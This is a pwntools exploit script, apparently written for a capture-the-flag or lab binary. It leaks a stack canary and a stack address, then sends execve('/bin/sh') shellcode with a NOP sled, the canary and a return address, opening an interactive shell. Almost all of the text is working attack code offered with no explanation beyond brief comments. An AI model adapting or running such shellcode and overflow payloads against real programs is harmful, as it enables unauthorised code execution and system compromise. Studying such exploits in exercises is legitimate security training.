 ```
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# esp is subbed 0x40 bytes, our input writes to esp+0x10
p.recvline()
# fread reads in 16 entries of size byte. (man page)
payload = b'a'*16
payload = payload[:-1]
log.info(f"payload: {payload}")
p.sendline(payload)
# successful leak

log.info(p.recvline())
canary = p.recvline()
canary = canary[:-2]
log.info(f"canary: {canary}")
# Canary acquired

p.recvuntil(b'[', drop=True)
stack_addr = p.recvline()
stack_addr = stack_addr[:-3]
log.info(f"stack address: {stack_addr}")
# Stack address acquired

stack_addr = int(stack_addr, 16)
stack_addr = p32(stack_addr)
log.info(f"stack address: {stack_addr}")
# stack address packed

# Shellcode to execve /bin/sh
my_asm = """
xor ecx, ecx
mul ecx

mov eax, 0xb
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
int 0x80
"""

# Filler nopsled shellcode
nop_asm = """
nop
"""

nopsled = asm(nop_asm)
shellcode = asm(my_asm)

# Construct payload
payload = shellcode
payload += nopsled * (0x40 - 0x10 - len(shellcode))
payload += canary
payload += nopsled * (0x58 - 0x40 - len(canary))
payload += stack_addr + b'\n'
p.sendline(payload)
p.interactive()
```
